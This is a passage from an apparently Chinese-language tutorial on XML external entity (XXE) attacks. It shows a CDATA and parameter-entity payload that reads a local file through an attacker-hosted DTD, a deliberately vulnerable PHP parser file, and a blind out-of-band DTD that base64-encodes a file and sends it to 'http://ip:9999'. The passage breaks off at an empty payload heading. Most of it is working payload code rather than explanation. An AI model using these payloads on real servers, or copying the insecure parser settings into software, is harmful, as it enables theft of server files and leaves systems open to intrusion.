 想调取test.txt

![](https://ask.qcloudimg.com/http-save/yehe-8581257/37accd924cf592536f6824e4f62db9e3.png)

若直接通过DTD外部实体声明会报错 要用到CDATA和参数实体

payload:

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

复制

evil.dtd

```javascript
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

复制

##### （2）无回显读取敏感文件(Blind OOB XXE)

在某些情况下，即便服务器可能存在XXE，也不会向攻击者的浏览器或代理返回任何响应 遇到这种情况，我们可以使用Blind XXE漏洞来构建一条外带数据(OOB)通道来读取数据

有问题的xml.php

```javascript
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

复制

test.dtd

```javascript
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

复制

payload：
